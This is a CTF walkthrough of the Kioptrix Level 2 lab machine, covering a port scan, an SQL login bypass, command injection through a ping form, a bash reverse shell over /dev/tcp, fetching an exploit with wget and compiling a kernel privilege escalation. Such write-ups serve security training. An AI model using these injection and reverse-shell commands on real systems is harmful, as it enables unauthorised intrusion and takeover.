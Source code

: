 # Kioptrix Level 2 walk-through

### Initial portscan
----
- I always start with an initial port scan to see what ports are open.
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/nmap_scan.png)

- ipp (internet printing protocol) port 631 was open, with version CUPS 1.1. I quickly searched with searchsploit and tried a quick python exploit but couldnt get it to work. There wasnt a lot of exploits available for that version so i decdided to move onto a more juicier port like 80.
--------
- Looking at the webserver on port 80, i tend to browse the website first, usually before or while i directory bruteforce. 
- At the main page it had a login form, so i had a feeling it was going to be a sql injection attack to gain remote access to the machine.
- Tried out a simple SQL auth bypass before i started diving into a more complicated SQL. Injection i tried `' OR 1=1 -- -` inside the username field, and password can be anything.

![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/Screenshot_2022-02-10_21-35-37.png)
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/SQL.png)

- Now theres a user input field and it says we can ping a machine on a network. So ill try to ping my attacker machine that im using.
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/ping-screen.png)
- Looks like we can ping our own machine   
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/ping_test.png)

- So it looks like its using the OS ping command, which we can try to command stack using   `;  &&  ||`  to get a reverse shell
- Testing command stacking with the command `; id`
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/id_test.png)
----------
### Getting a reverse shell
- lets try a reverse shell using bash. `; bash -i >& /dev/tcp/10.0.2.6/443 0>&1`
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/bash_code.png)
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/bash_rev_shell.png)

- wooo! success we have a shell on the machine! we are apache user with low privileges so lets try to get root.
- from the previous image, we can see the kernal is 2.6.9-55. I usually like to look at the privileges the user has and what kernal version is running once i get access to the machine.
- I used searchsploit to search "kernel 2.6"....and there was a ton of exploits that poped up. I decided to see if i can find the OS to help me narrow it down.


- `uname -a` was not much help to determine OS type. So i used the command `cat  /etc/*-release`. 
- Its running CentOS 4.5
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/OS.png)

- Now i can use this info to narrow down my exploit search. From the image below we can see that this exploit has the same OS version and it fits with our kernel version as well. Looks like this might work so lets give it a try.
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/searchsploit.png)
---------
### Compiling exploit
- I tried to compile the exploit on my machine but was getting an error. 
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/gcc_error.png)
- After doing some research online, it turns out i will need to compile this exploit on the victims machine in order for it to work.
- I spun up a quick webserver using python3. While in the same folder as my exploit use the command `python3 -m http.server  8000` this will create a webserver on port 8000 on our attacker machine. 
- Now hop over to the victims machine and go to /tmp folder. use wget command to download the exploit from your attacker's webserver you just created. `wget http://10.0.2.6:8000/9542.c`
------
### Running exploit
- Now the exploit is downloaded on the victims machine compile it `gcc 9542.c`
- It will produce another file called "a.out"
- Now all we have to do is execute the file and hope it gives us root. `./a.out`
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/getting_root.png)
- WOOoooooOOOoo! we got root!.
